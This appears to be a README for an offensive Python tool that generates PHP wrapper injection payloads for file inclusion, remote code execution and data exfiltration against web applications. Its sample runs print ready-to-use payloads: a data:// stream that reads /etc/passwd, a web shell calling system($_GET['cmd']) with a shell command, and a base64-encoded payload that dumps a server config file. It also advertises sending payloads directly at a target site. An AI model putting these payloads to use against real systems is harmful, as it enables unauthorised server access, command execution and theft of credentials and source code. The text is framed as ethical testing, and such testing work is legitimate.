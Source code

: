 ## PHP Data Exfiltration Automation Tool

## Overview
This is an advanced penetration testing tool for automating the discovery and exploitation of PHP data exfiltration vulnerabilities in web applications. It allows ethical hackers and security researchers to efficiently test for issues like local file inclusion, remote code execution, path traversal etc.

The tool is written in Python and works on Linux platforms. It has an intuitive text-based interface to guide the user through generating optimized payloads for injection testing.
Installation

The tool can be installed on Linux using pip:

bash

Copy code
pip install php-exfiltrate

Or by cloning the GitHub repository:

bash

```
Copy code
git clone https://github.com/ethicalhacker/php-exfiltrate
cd php-exfiltrate
```
## Usage

# To start the tool, simply run:

```
Copy code
python php-exfiltrate.py

```
This will present an interactive menu-driven interface to configure payload options.

The key steps are:

    Select the writing model (data://, php://filter etc.)
    Choose a mime-type for the data (text/plain, application/x-php etc.)
    Pick a built-in payload (file_get_contents, system command execution etc.)
    Set payload parameters like filenames, commands etc.
    The tool constructs and displays the complete payload
    Option to directly test the payload on a target site

Payloads

The tool contains the following well-commented payloads spanning multiple exfiltration techniques:

    File Inclusion - Extract arbitrary files from the system
    Code Execution - Execute OS commands via backdoors like system()
    File Reads - Exfiltrate sensitive data like config files
    Path Traversal - Access files outside web directories
    Source Code Disclosure - Dump source code of application pages
    Protocol Bypasses - Use obscure data types to bypass whitelist
    PHP Wrapper Tests - Check for misconfigurations in wrappers like php://input

Users can also easily add custom payloads to the existing codebase.
Sample Runs

Here are some sample runs showing practical usage:
LFI Payload with /etc/passwd

Copy code
python php-exfiltrate.py

Select model > 2. data://
Choose data type > 1. text/plain
Select payload > 4. file inclusion 
Enter filename > /etc/passwd

Generated payload:

data://text/plain,<?php echo file_get_contents('/etc/passwd');?>

Get OS Shell with System Execution

Copy code
python php-exfiltrate.py

Select model > 1. data:
Choose data type > 2. application/x-php
Select payload > 2. system execution
Append command > &cmd=ls -la

Generated payload:  

data:application/x-php,<?php system($_GET['cmd']);?>&cmd=ls -la

Exfiltrate PHP Config in Base64 Format

Copy code
python php-exfiltrate.py

Select model > 2. data://  
Choose data type > 1. text/plain
Select payload > 8. base64 file read
Enter filename > /var/www/config.php

Generated payload:

data://text/plain;base64,PD9waHAgZWNobyBiYXNlNjRfZW5jb2RlKGZpbGVfZ2V0X2NvbnRlbnRzKCcvdmFyL3d3dy9jb25maWcucGhwJykpOz8+

This provides an overview of the key capabilities of the tool. It simplifies and automates the manual process of PHP penetration testing and vulnerability discovery. The modular design allows rapid enhancements as well.
